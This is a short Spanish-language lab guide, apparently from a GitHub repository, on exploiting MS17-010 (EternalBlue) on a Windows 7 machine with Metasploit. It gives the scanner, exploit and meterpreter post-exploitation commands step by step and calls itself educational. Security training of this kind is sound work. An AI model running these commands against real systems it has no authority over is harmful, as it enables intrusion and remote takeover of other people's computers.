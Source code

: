 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
`msfconsole`
`Search ms17_10`
`use auxiliary/scanner/smb/smb_ms17_010` 
`set RHOSTS “Dirección IP del host windows 7 64bits”`
`run`


**Exploiting**
* use exploit/windows/smb/ms17_010_eternalblue
* show options 
* set RHOST < Rhost-id > 
* exploit 
 
**Post Exploitation**
* Sysinfo
* Getuid
* Shell

Enlace para mayor información
----- https://www.metasploit.com/
